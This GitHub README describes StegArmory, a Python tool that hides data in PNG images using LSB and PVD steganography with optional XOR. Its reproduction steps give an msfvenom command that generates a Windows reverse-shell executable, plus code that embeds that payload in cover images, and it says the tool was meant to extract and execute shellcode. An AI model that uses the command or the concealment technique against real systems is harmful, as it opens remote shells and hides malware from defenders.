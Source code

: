 # What is StegArmory?
StegArmory is an image-based steganography utility that can be used to embed and extract data from PNG images. StegArmory currently supports least significant bit (LSB) and pixel value differencing (PVD) encoding techniques. StegArmory was meant to embed and extract/execute shellcode payloads from images, though time-constraints didn't allow that feature of the project to be fully developed - this is left as an exercise for the user :)

# Getting Started
Grab the latest release and install the package requirements by running `pip3 -r requirements.txt`. Keep in mind StegArmory was built for Python 3.

The file `handler.py` contains the main method and sets up a bunch of logging gizmos at the start. It also contains a few examples of how to encode and extract data from PNG images using both the LSB and PVD methods. Here are those examples:

### Embed data using LSB method
```python
lsb_embed = processor.LSBProcessor(cover_img)
lsb_embed.embed_payload(payload, output_img_path)
```

### Extract data using LSB method
```python
lsb_extract = processor.LSBProcessor(output_img_path)
lsb_extract.extract_payload(output_payload_path)
```

### Embed data using PVD method
```python
pvd_embed = processor.PVDProcessor(cover_img)
pvd_embed.embed_payload(payload, output_img_path)
```

### Extract data using PVD method
```python
pvd_extract = processor.PVDProcessor(output_img_path)
pvd_extract.extract_payload(output_payload_path)
```

Optionally, a XOR key can be specified as a parameter for both the `embed_payload` and `extract_payload` methods. When embedding a payload, the 1-byte XOR key will be used to XOR each byte of the payload before it is embedded in the cover image. Likewise, the 1-byte XOR key specified when extracting a payload will be XOR'd against each byte of the extracted data before it is saved to disk.

# Examples
Below are two examples of a Metasploit payload being stored in the cover image using the LSB and PVD methods.

### Cover Image A

![Cover Image A (Panel)](test/images/panels.png)

### Output Image A (LSB encoded)

![Output Image A (Panel)](test/sample/panels-processed.png)

### Cover Image B

![Cover Image B (Red Car)](test/images/car.png)

### Output Image B (PVD encoded)

![Output Image B (Red Car)](test/sample/car-processed.png)


### Steps to Reproduce

1. Generate the stageless reverse shell using Metasploit\'s msfvenom: `msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=5704 -a x86 --platform windows -f exe -o msf-revshell.exe`
2. Update handler.py\'s `main` method to contain the following code after initializing logger (around line 12)
```python
# Uses Cover Image A to produce Output Image A that contains the payload msf-revshell.exe
lsb_embed = processor.LSBProcessor("test/images/panels.png")
lsb_embed.embed_payload("msf-revshell.exe", "test/sample/panels-processed.png")
#
# Uses Output Image A to recover original payload from the image
lsb_extract = processor.LSBProcessor("test/sample/panels-processed.png")
lsb_extract.extract_payload("test/sample/panels-payload.exe")
#
# Uses Cover Image B to produce Output Image B (XOR key = 54) that contains the payload msf-revshell.exe
pvd_embed = processor.PVDProcessor("test/images/car.png")
pvd_embed.embed_payload("msf-revshell.exe", "test/sample/car-processed.png", 54)
#
# Uses Output Image B to recover original payload from the image
pvd_extract = processor.PVDProcessor("test/sample/car-processed.png")
pvd_extract.extract_payload("test/sample/car-payload.exe", 54)
```
3. Run StegArmory: `python3 handler.py`


# Other Notes
Images processed with StegArmory contain an embedded header used during extraction. The header is 16 bytes, and appears as follows:
```
----------------HEADER------------------
| [5 bytes] Magic Bytes -> SAMRH
| [1 byte]  Method -> (LSB | PVD)
| [4 bytes] Payload Size in bits
| [4 bytes] Payload CRC32 Checksum
| [1 byte]  XOR Flag -> [0 | 1]
| [1 byte]  Reserved
----------------------------------------
```


